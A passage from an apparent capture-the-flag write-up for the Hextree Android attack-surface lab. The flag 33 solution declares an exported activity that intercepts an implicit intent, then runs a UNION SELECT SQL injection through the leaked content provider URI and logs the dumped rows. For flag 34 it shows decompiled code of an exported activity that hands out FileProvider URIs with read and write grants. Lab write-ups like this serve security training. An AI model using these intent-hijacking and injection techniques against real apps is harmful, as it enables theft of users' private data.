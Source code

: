This creates an implicit intent with action `"io.hextree.FLAG33"` and data to the second provider 
#### Solution
same payload as `flag33_1` but we will create a filter for the action 

```xml
<activity  
    android:name=".Providers"  
    android:exported="true" >  
    <intent-filter>        
	    <action android:name="io.hextree.FLAG33" />  
        <category android:name="android.intent.category.DEFAULT" />  
        <data android:scheme="content" android:host="io.hextree.flag33_2" />  
    </intent-filter>
</activity>
```

```java
  
Intent intent_33 = getIntent();  
if (intent_33.getAction() != null & "io.hextree.FLAG33".equals(getIntent().getAction())) {  
    Cursor cursor = getContentResolver().query(intent_33.getData(), new String[]{"name", "value", "visible"}, "_id = 2 UNION SELECT  * FROM Note", null, null);  
    if (cursor.moveToFirst()) {  
        do {  
            StringBuilder sb = new StringBuilder();  
            for (int i = 0; i < cursor.getColumnCount(); i++) {  
                if (sb.length() > 0) sb.append(", ");  
                sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
            }  
            Log.d("evil", sb.toString());  
        } while (cursor.moveToNext());  
    }  
}
```

### Flag 34
#### Code analysis
```xml
 <activity
	android:name="io.hextree.attacksurface.activities.Flag34Activity"
	android:exported="true"/>
```

The activity is exported so we can interact with it from our app

```java
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        String stringExtra = getIntent().getStringExtra("filename");
        if (stringExtra != null) {
            prepareFlag(this, stringExtra);
            Uri uriForFile = FileProvider.getUriForFile(this, "io.hextree.files", new File(getFilesDir(), stringExtra));
            Intent intent = new Intent();
            intent.setData(uriForFile);
            intent.addFlags(3);
            setResult(0, intent);
            return;
        }
        Uri uriForFile2 = FileProvider.getUriForFile(this, "io.hextree.files", new File(getFilesDir(), "secret.txt"));
        Intent intent2 = new Intent();
        intent2.setData(uriForFile2);
        intent2.addFlags(3);
        setResult(-1, intent2);
    }
```